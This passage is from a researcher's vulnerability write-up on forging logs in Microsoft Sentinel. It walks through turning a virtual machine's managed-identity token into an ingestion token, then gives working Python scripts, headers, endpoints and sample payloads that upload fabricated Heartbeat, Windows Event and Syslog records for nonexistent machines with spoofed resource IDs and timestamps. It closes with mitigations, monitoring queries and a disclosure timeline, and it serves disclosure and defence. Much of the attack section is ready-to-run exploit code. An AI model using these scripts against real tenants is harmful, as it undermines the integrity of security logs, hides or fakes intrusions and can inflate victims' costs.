UTNWBibVgb3ww","client_id":"964ffcc3-c9a4-4a99-8fc7-347933803137","expires_in":"84649","expires_on":"1732698785","ext_expires_in":"86399","not_before":"1732612085","resource":"https://monitor.azure.com","token_type":"Bearer"}
```

Decoding the `access_token` in JWT, you will see a `xms_mirid` claim, which is the Microsoft Resource ID of this resource. E.g.
`/subscriptions/fdc24141-9008-45d1-a749-fa990d42a015/resourcegroups/research/providers/Microsoft.Compute/virtualMachines/windows`.
You'll also notice, that the `expires_on` claim is for 24 hours time.


**FROM NOW ON, YOU DONT \_NEED\_ ANY ACCESS TO THE VIRTUAL MACHINE**.

Once you've got that `access_token`, you don't necessarily need access to that machine.
From that access token, we now need to request an `ingestionToken`, which we can use in requests to the DCE. To get an ingestionToken, its just a case of calling a public endpoint. So we can do that from our local machine and not the virtual machine.

The ingestionToken issueing URL, is the value we saw earlier, in the `AMA` configuration file locally on the VM. If you didn't know the DCE endpoint, you could either grab the data from the configuration file (it dosent require admin permissions), or potentially you can determine it by further metadata calls, or by viewing AMA logs.

For Windows VMs, the `issueIngestionToken` token looks like:`https://my-dce-9uo6.uksouth-1.handler.control.monitor.azure.com/subscriptions/fdc24141-9008-45d1-a749-fa990d42a015/resourceGroups/research/providers/Microsoft.Compute/virtualMachines/windows/agentConfigurations/dcr-fc14f47e3f584e039ec8e7084df45ed7/channels/ods-b3cdb8b1-05e3-415b-a624-5eac3d251889/issueIngestionToken?operatingLocation=uksouth&platform=windows&api-version=2022-06-02`
For Linux VMs, the `issueIngestionToken` token looks like: `https://my-dce-9uo6.uksouth-1.handler.control.monitor.azure.com/subscriptions/fdc24141-9008-45d1-a749-fa990d42a015/resourceGroups/research/providers/Microsoft.Compute/virtualMachines/research-linux/agentConfigurations/dcr-e3446e4a4cf2448094b573ede3c47f61/channels/ods-b3cdb8b1-05e3-415b-a624-5eac3d251889/issueIngestionToken?operatingLocation=uksouth&platform=linux&includeMeConfig=true&api-version=2022-06-02`


There are three configuration items here which arent obvious at first:
1. The domain `https://my-dce-9uo6.uksouth-1.handler.control.monitor.azure.com`. That is the DCE endpoint domain.
2. `dcr-e3446e4a4cf2448094b573ede3c47f61` - this is the DCR immutable ID
3. `ods-b3cdb8b1-05e3-415b-a624-5eac3d251889` - this just is `ods-` suffixed with the Log Analytics workspace ID.


You can find the values in the following file `C:\WindowsAzure\Resources\AMADataStore.windows\mcs\mcsconfig.latest.json`


To get an ingestion token, its just a HTTP GET request to that URL, setting your `access_token` as the `"Authorization": "Bearer xxxxx` header.
I also copy the user-agent headers which were visible in the burp proxy.

In Python, the request looks something like this:
```
import requests
from uuid import uuid4
import jwt
import os

def get_ingestion_token(access_token, ingestion_url):
    header = {"Authorization": "Bearer {}".format(access_token)}
    header['Connection'] = "close"
    header['User-Agent'] = "AMA/1.14.0.0 (Windows; x64)"

    random_request_id = str(uuid4())
    header['x-ms-client-request-id'] = random_request_id

    r = requests.get(url=ingestion_url, headers=header)

    if r.status_code != 200:
        print(f"errror getting ingestion token - {r.status_code}{r.text}")
        exit(1)

    ingestion_token = r.json()["ingestionAuthToken"]

    try:
        decoded = jwt.decode(ingestion_token, options={"verify_signature": False}, algorithms=["HS256"])
    except jwt.ExpiredSignatureError:
        print("Token has expired.")
        os.exit(1)
    except jwt.InvalidTokenError:
        print("Invalid token.")
        os.exit(1)
    print(ingestion_token)
```

What is returned, is the **ingestionToken** from the DCE.

Now, we can simply use this ingestionToken to upload data that we control.
Remember, there isnt any API access for the `Event` and `Heartbeat` tables - this method is circumventing the log ingestion API (which itseelf requires additional permissions such as Log Analaytifcs contributor..)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiUHVibGlzaGVyIiwid2lkIjoiMTgyN2M3OTctNGE0YS00YTY4LWI2ZjMtZmIzZTNjZWZkNTBhIiwiaXBzIjoiTG9nTWFuYWdlbWVudCIsInNraXBkZWZhdWx0ZGNyIjoiVHJ1ZSIsInRhcmdldFJpZCI6Ii9zdWJzY3JpcHRpb25zL2ZkYzI0MTQxLTkwMDgtNDVkMS1hNzQ5LWZhOTkwZDQyYTAxNS9yZXNvdXJjZUdyb3Vwcy9yZXNlYXJjaC9wcm92aWRlcnMvTWljcm9zb2Z0LkNvbXB1dGUvdmlydHVhbE1hY2hpbmVzL3dpbmRvd3MiLCJza2xvYyI6InVrc291dGgiLCJza3Byb3YiOiJhbWNzIiwiY2lkIjoiZGNyLTEzMTZhOWZiYTUxNTRkNjU4YmE1YTdlYTFjM2QyZWVmIiwibmJmIjoxNzMyNjE1OTg4LCJleHAiOjE3MzI3MDIzODgsImlhdCI6MTczMjYxNTk4OCwiaXNzIjoiQU1DUyIsImF1ZCI6IlBpcGVsaW5lIn0.Y6KFXC2rL333BhwsybpdG6KVKcDTRiDgLlP_eTNohEQ
```

Decoding the ingestion token JWT, we can see this:
```
{
  "role": "Publisher",
  "wid": "1827c797-4a4a-4a68-b6f3-fb3e3cefd50a",
  "ips": "LogManagement",
  "skipdefaultdcr": "True",
  "targetRid": "/subscriptions/fdc24141-9008-45d1-a749-fa990d42a015/resourceGroups/research/providers/Microsoft.Compute/virtualMachines/windows",
  "skloc": "uksouth",
  "skprov": "amcs",
  "cid": "dcr-1316a9fba5154d658ba5a7ea1c3d2eef",
  "nbf": 1732615988,
  "exp": 1732702388,
  "iat": 1732615988,
  "iss": "AMCS",
  "aud": "Pipeline"
}
```
Here the expiry, is for another 24 hours from when the ingestion token is requested.

Now with the ingestion token, we can begin to spoof some logs.

The payloads need to be compressed with `zlib`, which we can easily do with Python.
The table schemas are ridid, and expect the uploaded data to be in a specific format. However, they dont care what the *values* of the data are.

We can upload logs for computers that dont exist, with contents that never happened, on timestamps we've made up.

## Headers
For each request, you'll need to set the Headers as follows:
```
    "Content-Type": "application/xml; charset=utf-8",
    "Content-Encoding": "deflate",
    "Authorization": f"Bearer {ingestion_token}",
    "User-Agent": "AMA/1.14.0.0 (Windows; x64)", # agent dosent really matter
    "x-ms-AzureRegion": "uksouth",
    "x-ms-AzureResourceId": f"/subscriptions/{subscription_id}/resourceGroups/{rg_name}/providers/Microsoft.Compute/virtualMachines/{vm_name}",
    "x-ms-OMSCloudId": "7783-7084-3265-9085-8269-3286-77",
    "x-ms-UUID": str(uuid4()),
    "X-Request-ID": str(uuid4()),
```

`OMSCloudId` is a hardcoded GUID thats used to indicate this this coming from Azure. A google search of the GUID `7783-7084-3265-9085-8269-3286-77` will reveal lots of hits.

One significant finding here, is the setting of the `x-ms-AzureResourceId` header. Whatever value you configure here, will appear as the `_ResourceId` column in the uploaded data.

`_` prefixed columns are used to specify metadata in Azure logs. 
For example, in the [Heartbeat table schema](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/heartbeat#columns) there are columns for `_BilledSize`, `_ResourceID` and `_IsBillable`.

I've not tried setting `_IsBillable` to false, to determine if I can get away with some free log ingestion.
The same metadata colums exist for the [Syslog schema](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/syslog#columns) and [WindowsEvent schema](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/windowsevent#columns) and the [Event](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/event#columns) schema.

## Timestamps
Spoofing the timestamps in all of the logs is interesting.

For most table schemas, there are two timestamp fields. There is always a `TimeGenerated` field, which is the time that Microsoft Sentinel recieved the log. But depending on what table youre uploading to, there may be other Timestamp datatype fields. For example, in the `Event` table, there may be timestamps in the `EventData` column, and with the `Syslog` table, there is an [`EventTime` column in addition to `TimeGenerated`](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/syslog#columns).

The significance of changing these values, depends on the analytics rules querying the data. Some KQL queries use the `TimeGenerated` column, and some use the `EventTime` column.

For example, [the SSH Brute Force Analytics rule uses the `TimeGenerated` value](https://github.com/Azure/Azure-Sentinel/blob/master/Solutions/Syslog/Analytic%20Rules/ssh_potentialBruteForce.yaml#L31), but this query uses the [`EventTime` column from the SecurityEvent table](https://github.com/Azure/Azure-Sentinel/blob/master/Solutions/Windows%20Security%20Events/Hunting%20Queries/cscript_summary.yaml#L39) instead.

If there is a query which looks at the TimeGenerated field over a period of time, you'd be better off slowly spoofing logs to simulate a real attack.
If a query looks at the for example, the EventTime field, then you could batch upload your logs with the time values already manipulated.

## Heartbeat
Take either with XML or JSON endpoint URL, as mentioned earlier:
`https://{workspace_id}.ods.opinsights.azure.com/" + "OperationalData.svc/PostDataItems`
or 
`https://{workspace_id}.ods.opinsights.azure.com/" + "/OperationalData.svc/PostJsonDataItems?api-version=2016-04-01`

Set the headers as defined above, then compress and POST the payload.

Make sure to change the `x-ms-AzureResourceId` header, if you want to spoof the `_ResourceId` column.

Here is a (mostly) complete Python snippet, with a HeartBeat logs baked in to the script.
```
"""
There are two endpoints for Heartbeats, and either virtual machine and send to either.

XML endpoint "/OperationalData.svc/PostDataItems"
JSON endpoint "/OperationalData.svc/PostJsonDataItems?api-version=2016-04-01"
"""
import zlib
import requests
from uuid import uuid4
import json

subscription_id = "xxxxx"
rg_name = "research"

def get_ingestion_header(ingestion_token, vm_name):
    return {
        "Content-Type": "application/xml; charset=utf-8",
        "Content-Encoding": "deflate",
        "Authorization": f"Bearer {ingestion_token}",
        "User-Agent": "AMA/1.14.0.0 (Windows; x64)", # agent dosent really matter
        "x-ms-AzureRegion": "uksouth",
        "x-ms-AzureResourceId": f"/subscriptions/{subscription_id}/resourceGroups/{rg_name}/providers/Microsoft.Compute/virtualMachines/{vm_name}",
        "x-ms-OMSCloudId": "7783-7084-3265-9085-8269-3286-77",
        "x-ms-UUID": str(uuid4()),
        "X-Request-ID": str(uuid4()),
    }

def send_heartbeat_xml(workspace_id, ingestion_token):
    if not workspace_id:
        print("Need an workspace_id")
        exit(1)

    if not ingestion_token:
        print("Need an ingestion token")
        exit(1)

    spoofed_machine = "idontexistxml"
    ingestion_headers = get_ingestion_header(ingestion_token, spoofed_machine)    
    
    url = f"https://{workspace_id}.ods.opinsights.azure.com/" + "OperationalData.svc/PostDataItems"

    print(f"sending data to {url}")
    logs = heartbeat_xml()

    logs = logs.replace("windowsdev", spoofed_machine)

    compressed_payload = zlib.compress(logs.encode())
    response = requests.post(url, headers=ingestion_headers, data=compressed_payload)
    print(response.status_code)
    print(response.headers)
    print(response.text)
    print(response.content.decode())


def send_heartbeat_json(workspace_id, ingestion_token):
    if not workspace_id:
        print("Need an workspace_id")
        exit(1)

    if not ingestion_token:
        print("Need an ingestion token")
        exit(1)

    spoofed_machine = "idontexistjson"
    ingestion_headers = get_ingestion_header(ingestion_token, spoofed_machine)    
    
    url = f"https://{workspace_id}.ods.opinsights.azure.com/" + "OperationalData.svc/PostJsonDataItems?api-version=2016-04-01"

    print(f"sending data to {url}")

    data = heartbeat_json()
   
    logs = json.dumps(data)
    logs = logs.replace("research-linux", spoofed_machine)

    compressed_payload = zlib.compress(logs.encode())
    response = requests.post(url, headers=ingestion_headers, data=compressed_payload)

    print(response.status_code)
    print(response.headers)
    print(response.text)


def heartbeat_json():
    return {
    "DataType": "HEALTH_ASSESSMENT_BLOB",
    "IPName": "LogManagement",
    "ManagementGroupId": "00000000-0000-0000-0000-000000000002",
    "sourceHealthServiceId": "25956e2d-7621-c84c-827e-15d478474a1e",
    "type": "JsonData",
    "DataItems": [
      {
        "Computer": "research-linux",
        "OSType": "Linux",
        "Category": "AMA",
        "SCAgentChannel": "Direct",
        "Version": "1.33.1",
        "OSName": "Ubuntu",
        "OSMajorVersion": "22",
        "OSMinorVersion": "04",
        "ComputerPrivateIps": "[\"192.168.1.5\"]"
      }
    ]
  }

def heartbeat_xml():
    return """
    <DataItems IPName="LogManagement"
    ManagementGroupId="{00000000-0000-0000-0000-000000000001}"
    DataType="HEALTH_ASSESSMENT_BLOB">
    <DataItem type="System.PropertyBagData"
        sourceHealthServiceId="42cc5434-03be-4271-97f9-f799b5bd3177"
        time="2024-09-24T17:51:56.7654118Z">
        <Property Name="Computer">windowsdev</Property>
        <Property Name="OSType">Windows</Property>
        <Property Name="Category">AMA</Property>
        <Property Name="SCAgentChannel">Direct</Property>
        <Property Name="OSName">Windows Server 2022 Datacenter</Property>
        <Property Name="OSMajorVersion">10</Property>
        <Property Name="OSMinorVersion">0</Property>
        <Property Name="Version">1.10.0.0</Property>
        <Property Name="ComputerPrivateIps">["192.168.1.4"]</Property>
    </DataItem>
    </DataItems>
    """

if __name__ == "__main__":
    workspace_id = ""
    # the ingestion token can be either windows or linux - both will work for both endpoints
    ingestion_token = ""
    send_heartbeat_xml(workspace_id, ingestion_token)
    send_heartbeat_json(workspace_id, ingestion_token)
```
Add in your subscription ID, workspace ID and ingestion token, and this will create a 

Here is a video demonstration:

## Spoofing Windows
For Windows machines, the payload needs to be in XML format. I grabbed an example upload from the proxy, and had to modify some of the XML fields and attributes in order to have a successful spoof.

The URL endpoint is: `"https://{workspace_id}.ods.opinsights.azure.com/" + "/GenericEventDataService.svc/PostDataItems"`

The headers are as mentioned above.

The example log files can be found `here`. In that file, im uploading 10 logs which are fairly insignificant. The point here is that these logs could be anything.
The following Python snippet will read the `xml` file, do a dump find and replace on the machine hostname, and then upload the log to the `Event` table in Microsoft Sentinel.

**Remember - the you cannot normally write to the Event table, only the WindowsEvent table.**

```
url = f"https://{workspace_id}.ods.opinsights.azure.com/" + "/GenericEventDataService.svc/PostDataItems"
print(f"sending data to {url}")

logs = read_file_as_xml("event.xml")
logs = ET.tostring(logs, encoding="unicode")
logs = logs.replace("windowsdev", spoofed_machine)
compressed_payload = zlib.compress(logs.encode())
response = requests.post(url, headers=ingestion_headers, data=compressed_payload)
print(response.status_code)
print(response.headers)
print(response.text)
```

## Spoofing Linux Syslog
For Linux machines, the payload is in JSON format. The payload is still zlib compressed.

The URL endpoint is: `"https://{workspace_id}.ods.opinsights.azure.com/" + "OperationalData.svc/PostJsonDataItems?api-version=2016-04-01"`

The headers are as mentioned above.

I've included some JSON as part of the script, so that its more portable.

```

data = spoofed_syslog()
for log in data["DataItems"]:
    now = datetime.datetime.now()
    # method to just change the timestamp to a more recent timestamp
    timegen_result = normalise_timestamp(now, log["Timestamp"])
    log["Timestamp"] = str(timegen_result.strftime("%Y-%m-%dT%H:%M:%S.%fZ"))

logs = json.dumps(data)
logs = logs.replace("research-linux", spoofed_machine)

compressed_payload = zlib.compress(logs.encode())
response = requests.post(url, headers=ingestion_headers, data=compressed_payload)
print(response.status_code)
print(response.headers)
print(response.text)

def spoofed_syslog():
    return {
        "DataType": "LINUX_SYSLOGS_BLOB",
        "IPName": "LogManagement",
        "ManagementGroupId": "00000000-0000-0000-0000-000000000002",
        "sourceHealthServiceId": "25956e2d-7621-c84c-827e-15d478474a1e",
        "type": "JsonData",
        "DataItems": [
        {
            "Facility": "auth",
            "SeverityNumber": "6",
            "EventTime": "2024-10-07T18:30:12.671619Z",
            "HostIP": "192.168.1.5",
            "Message": "Server listening on 0.0.0.0 port 22.",
            "ProcessId": "531",
            "Severity": "info",
            "Host": "research-linux",
            "ident": "sshd",
            "Timestamp": "2024-10-07T18:30:32.671632Z"
        },
        {
            "Facility": "auth",
            "SeverityNumber": "6",
            "EventTime": "2024-10-07T18:30:12.671719Z",
            "HostIP": "192.168.1.5",
            "Message": "Server listening on :: port 22.",
            "ProcessId": "531",
            "Severity": "info",
            "Host": "research-linux",
            "ident": "sshd",
            "Timestamp": "2024-10-07T18:30:32.67173Z"
        },
        {
            "Facility": "auth",
            "SeverityNumber": "6",
            "EventTime": "2024-10-07T18:30:12.672446Z",
            "HostIP": "192.168.1.5",
            "Message": "New seat seat0.",
            "ProcessId": "480",
            "Severity": "info",
            "Host": "research-linux",
            "ident": "systemd-logind",
            "Timestamp": "2024-10-07T18:30:32.672458Z"
        },
        {
            "Facility": "auth",
            "SeverityNumber": "6",
            "EventTime": "2024-10-07T18:30:12.672486Z",
            "HostIP": "192.168.1.5",
            "Message": "Watching system buttons on /dev/input/event0 (Power Button)",
            "ProcessId": "480",
            "Severity": "info",
            "Host": "research-linux",
            "ident": "systemd-logind",
            "Timestamp": "2024-10-07T18:30:32.672499Z"
        },
        {
            "Facility": "auth",
            "SeverityNumber": "6",
            "EventTime": "2024-10-07T18:30:12.672518Z",
            "HostIP": "192.168.1.5",
            "Message": "Watching system buttons on /dev/input/event2 (AT Translated Set 2 keyboard)",
            "ProcessId": "480",
            "Severity": "info",
            "Host": "research-linux",
            "ident": "systemd-logind",
            "Timestamp": "2024-10-07T18:30:32.67253Z"
        },
        {
            "Facility": "auth",
            "SeverityNumber": "6",
            "EventTime": "2024-10-07T18:30:12.672548Z",
            "HostIP": "192.168.1.5",
            "Message": "Watching system buttons on /dev/input/event1 (AT Translated Set 2 keyboard)",
            "ProcessId": "480",
            "Severity": "info",
            "Host": "research-linux",
            "ident": "systemd-logind",
            "Timestamp": "2024-10-07T18:30:32.672559Z"
        },
        {
            "Facility": "auth",
            "SeverityNumber": "6",
            "EventTime": "2024-10-07T18:30:35.487496Z",
            "HostIP": "192.168.1.5",
            "Message": "Accepted password for akingscote from 86.26.207.241 port 41286 ssh2",
            "ProcessId": "2495",
            "Severity": "info",
            "Host": "research-linux",
            "ident": "sshd",
            "Timestamp": "2024-10-07T18:30:35.487541Z"
        },
        {
            "Facility": "auth",
            "SeverityNumber": "6",
            "EventTime": "2024-10-07T18:30:35.520764Z",
            "HostIP": "192.168.1.5",
            "Message": "New session 1 of user akingscote.",
            "ProcessId": "480",
            "Severity": "info",
            "Host": "research-linux",
            "ident": "systemd-logind",
            "Timestamp": "2024-10-07T18:30:35.520816Z"
        }
        ]
    }
```


## Impact
Now you've seen how to spoof logs, its important to reiterate the impact this can have on Microsoft Sentinel.

Most of these out the box queries all assume that the data source is trusted. Once the integrity of the data source is questioned, it undermines Microsoft Sentinel as a security product.


# Results
Here is a video demonstration of me simulating Heartbeat logs, Windows Logs, and Linux logs.

I have a couple of analytic rules running on a schedule, to show that I am creating alerts for resources which dont actually exist.
My KQL queries are irrelevant, im just proving that my spoofed data looks and behaves as normal data.


## Mitigations
### Microsoft could improve things...
When I submitted this to Microsoft, I submitted a potentially quick and easy fix which would reduce effectiveness of this exploit.

As a minimum, I dont think we should be able to spoof the `_ResourceID` metadata column. 

The actual `ingestionToken` we use for the upload, is tied to a specific machine. Inside the token JWT, is the `targetRid` claim which cannot be manipulated.


Instead of setting the `_ResourceId` value based on the `X-Ms-Azureresourceid` header, Microsoft should instead set the value based off the `targetRid` claim in the requesting authentication token.

Once that is in place, we have some integrity on the _ResourceId field. This dosent help stop log spoofing for the machine we got the ingestion token from, but it may help mitigate other machines being spoofed. Once we can properly trust the _ResourceId field in our tables, we can amend any KQL queries to check reported data against that value. 

For example, the following KQL query

Instead, Microsoft should consider processing the ingestion token JWT to extract real resource ID from the `xms_mirid` key. That value is trusted, as you cannot request an ingestion token from one managed identity, to another virtual machine, otherwise you receive the following:
```
{"error":{"code":"InvalidResourceId","message":"Resource ID in the access token ('/subscriptions/xxxx-xxxx-xxxx-xxxx/resourcegroups/research/providers/Microsoft.Compute/virtualMachines/research-windows') does not match the expected one ('/subscriptions/xxxx-xxxx-xxxx-xxxx/resourceGroups/research/providers/Microsoft.Compute/virtualMachines/research-linux')"}}
```
Once the `_ResourceID` is a trusted value, that value can be parsed to extract fields such as `Computer`, or at least allow analysts to write their own KQL queries parsing a trusted resource identifier. This wont stop logs from being spoofed from the "breached" machine, but will stop logs being spoofed form other machines.

### Monitor Log Counts
To avoid the potentially costly denial of wallet attacks, you could keep an eye on your logs, by running a daily KQL query which has something like this:
```
Usage
| summarize TotalSizeInMB = sum(Quantity) by DataType
| extend TotalSizeInGB = TotalSizeInMB / 1024
| order by TotalSizeInGB desc
```

## Conclusion
Ultimately, its possiuble to undermine the integrity of the logs in Microsoft Sentinel.

Although you can write to teh Syslog table via the log ingestionh API, this methods shows that you can do ti indirectly without any permissions.
it also shows that you can write to tables that arent possible via the lgo ingestion API, such as Event (wndowsEvent distinction) and the Heartbeat table.

It also shows that you can replace `_` metadata fields just by changing the header.


### Repsonsible Disclosure:
The above was submitted to Microsoft Security Research Center on the 11th October 2024.

Submission number: `VULN-136697`
Case number: `91889`

- 11th October 2024 - Submitted to MSRC
- 15th October 2024 - Status changed to `Review/Repro`
- 27th October 2024 - I chased for an update
- 11th November 2024 - I chased for an update
- 12th November 2024 - Determined to be low severity, caes closed

## Up Next
I will upload a complete code and walkthrough, including all the terraform, command and python needed to reproduce this finding.

I have another finding that has gone through the Responsible Disclosure process, so watch this space in the coming weeks for my next writeup on: Microsoft Azure Virtual Machines - Cross-Tenant Domain Joins.


```
Event
| where Computer =="windowsidontexist"


Syslog
| where Computer =="linuxidontexist"


Heartbeat
| where Computer == "heartbeatidontexist"
```